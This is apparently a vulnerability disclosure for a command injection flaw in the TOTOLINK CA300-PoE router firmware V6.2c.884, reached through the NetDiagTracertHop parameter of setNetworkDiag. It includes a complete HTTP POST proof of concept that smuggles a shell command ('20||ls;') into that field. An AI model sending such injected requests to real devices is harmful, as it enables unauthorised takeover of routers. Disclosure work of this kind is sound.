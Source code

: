 # TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the NetDiagTracertHop parameter in the function setNetworkDiag

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `setNetworkDiag`.

## ![image-20230112103759214](images/1.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html



## Affected version

**Version: V6.2c.884**

![image-20230112103905821](images/2.png)

## Vulnerability details

POC1:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{"topicurl" :"setting/setNetworkDiag","NetDiagMethod" : "1", "NetDiagTracertHop": "20||ls;"}
```

![image-20230112184654180](images/3.png)



The function `setNetworkDiag` is used to set the corresponding variable

![image-20230112182605470](images/5.png)

In function `showNetworkDiag`

![image-20230112182702672](images/6.png)

step into function `getDiagInfo`，`V11` is the value of `system.NetDiag.method`

![image-20230112192218163](images/7.png)

![image-20230112192317035](images/8.png)
